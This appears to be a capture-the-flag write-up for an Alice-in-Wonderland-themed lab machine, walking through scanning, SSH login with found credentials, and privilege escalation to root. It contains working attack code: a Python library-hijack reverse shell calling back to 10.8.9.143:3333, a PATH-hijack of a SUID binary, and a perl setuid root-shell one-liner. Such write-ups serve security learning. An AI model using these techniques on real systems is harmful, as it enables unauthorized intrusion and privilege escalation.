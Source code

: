 
We start by enumerating the target machine with rustscan:

	rustscan -a 10.10.43.9

output:

	ports	service
	22		ssh
	80		http

we visite the website and we run feroxbuster in the background:

	sudo feroxbuster -u http://10.10.43.9/ -w /usr/share/worldist/dirbuster/dir-list-medium  -x php,txt,json,docx,pdf,js,html,git,bak -t 50 -d 1

output:

	/img
	/r

there are also some images to downloads but they are just rabbit holes to distract you.
the /r seems very strange so we keep digging in the rabbit hole (as the machine is theamed) so we keep enum the directory:

	/a
	/b
	...
we identify a pattern like this:

	http://10.10.43.9/r/a/b/b/i/t/

at the end we find an html file with a user and a password in the source code:

	alice:REDACTED

we can try those creds in but first we open a pwncat:

	python3 -m pwncat  
	connect ssh://alice:REDACTED@10.10.43.9

we find a root.txt (very strange things) in alice /home directory but off course we cant "cat" it so we need to keep digging:
i tried to see alice permissions with:

	sudo -l

output:

	(rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py 

this means that we can run the script in alice's /home dir; in the script its imported the random library; maybe we can try to fake the library with one of our script so the user rabbit can execute our rev shell:

	random.py

	import sys
	import socket
	import os
	import pty

	def choice(d):
			s=socket.socket();s.connect(("10.8.9.143",int(3333)));
			[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
			pty.spawn("/bin/bash")
			return "ciao"

with this script we get a call back to our pwncat:

	python3 -m pwncat
	connect -lp 3333

we got the rabbit shell.
inside rabbit's home directory we find a teaParty, its an ELF with suid bit on, we analyze the ELF on ghidra and we se this:

	setuid(0x3eb);
	setgid(0x3eb);
	puts("Welcome to the tea party!\nThe Mad Hatter will be here soon.");
	system("/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R");
	puts("Ask very nicely, and I will give you some tea while you wait for him");
	getchar();
	puts("Segmentation fault (core dumped)");
	return;

the script print the date dinamically by calling the "date" binary, so we can change the $PATH env variable so we can create our own date file to execute as hatter, the next user:

	export PATH=/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

now we create the date file and mark it as executable:

	echo "/bin/bash" > date
	chmod +x date

now we can run the script and get a shell with hatter:

	./teaParty

Now we are hatter and we can try launch linpeas.sh to enumerate hatter privilage:
we find perl suid so we can execute perl rev shell

	perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'

now we are root and we can cat the root.txt that is in the root folder and then we go to /root directory and we retrieve the user.txt.
